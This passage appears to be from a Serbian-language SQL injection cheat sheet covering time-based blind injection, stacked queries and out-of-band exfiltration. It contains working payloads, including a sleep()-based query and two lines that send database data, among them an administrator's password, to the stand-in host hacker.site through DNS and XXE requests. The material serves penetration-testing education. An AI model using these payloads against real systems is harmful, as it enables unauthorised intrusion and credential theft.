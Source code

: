 U ovom slučaju **nema** načina da se **razlikuje** odgovor upita na osnovu konteksta stranice. Međutim, možete učiniti da se stranica **duže učitava** ako je pogodno pretpostavljeno slovo tačno. Već smo videli ovu tehniku u upotrebi ranije kako bismo [potvrdili SQLi ranjivost](./#potvrda-pomoću-vremena).

```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```

## Stacked Queries

Možete koristiti "stacked queries" da biste **izvršili više upita jedan za drugim**. Imajte na umu da se dok se izvršavaju sledeći upiti, **rezultati ne vraćaju aplikaciji**. Stoga je ova tehnika uglavnom korisna u vezi sa **slepim ranjivostima**, gde možete koristiti drugi upit da pokrene DNS pretragu, uslovnu grešku ili kašnjenje vremena.

**Oracle** ne podržava **stacked queries**. **MySQL, Microsoft** i **PostgreSQL** ih podržavaju: `UPIT-1-OVDE; UPIT-2-OVDE`

## Eksploatacija van mreže

Ako **nijedna druga** metoda eksploatacije **nije uspela**, možete pokušati da **izvučete informacije iz baze podataka** na **spoljni server** koji je pod vašom kontrolom. Na primer, putem DNS upita:

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```

### Izvlačenje podataka putem XXE-a izvan opsega

XXE (Eksterni XML Entitet) je sigurnosna ranjivost koja omogućava napadaču da izvrši udaljene zahteve i izvuče podatke izvan opsega aplikacije. Ova tehnika se može koristiti za izvlačenje osetljivih informacija iz baze podataka putem XML eksternih entiteta.

Da biste iskoristili ovu ranjivost, prvo morate pronaći mesto gde se koristi XML parser koji podržava eksterne entitete. Zatim, možete konstruisati poseban XML payload koji će izvršiti udaljeni zahtev i vratiti osetljive podatke.

Na primer, možete konstruisati payload koji će izvršiti SQL upit na bazi podataka i vratiti rezultate. Ovi rezultati mogu biti uključeni u XML odgovor koji će biti poslat napadaču.

Da biste izvršili ovu tehniku, koristite sledeće korake:

1. Pronađite mesto gde se koristi XML parser koji podržava eksterne entitete.
2. Konstruišite XML payload koji će izvršiti udaljeni zahtev i vratiti osetljive podatke.
3. Pošaljite payload na ciljnu aplikaciju i pratite odgovor kako biste izvukli osetljive podatke.

Važno je napomenuti da je ova tehnika vrlo moćna i može biti zloupotrebljena. Stoga je važno da se koristi samo u okviru zakonitog pentestinga i sa dozvolom vlasnika sistema.

```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```

## Automatizovano iskorišćavanje

